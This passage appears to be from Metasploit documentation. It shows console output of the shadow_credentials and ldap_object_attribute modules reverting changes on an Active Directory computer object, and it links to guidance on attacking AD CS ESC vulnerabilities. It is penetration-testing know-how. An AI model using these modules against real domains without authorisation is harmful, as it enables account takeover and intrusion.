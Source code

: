 ```
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[+] Deleted entry with device ID 44760c6e-8637-598a-ad8e-04aa4b99ee58
[*] 172.16.199.200:445 - Reverting ldap object
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Attempting to delete attribute dNSHostName from CN=Test2,CN=Computers,DC=kerberos,DC=issue...
[+] Successfully deleted attribute dNSHostName from CN=Test2,CN=Computers,DC=kerberos,DC=issue
[+] The operation completed successfully!
[*] Auxiliary module execution completed
```

For more exploit scenarios that this module can exploit, refer to the [[Attacking-AD-CS-ESC-Vulnerabilities|./ad-certificates/Attacking-AD-CS-ESC-Vulnerabilities.md]] documentation.
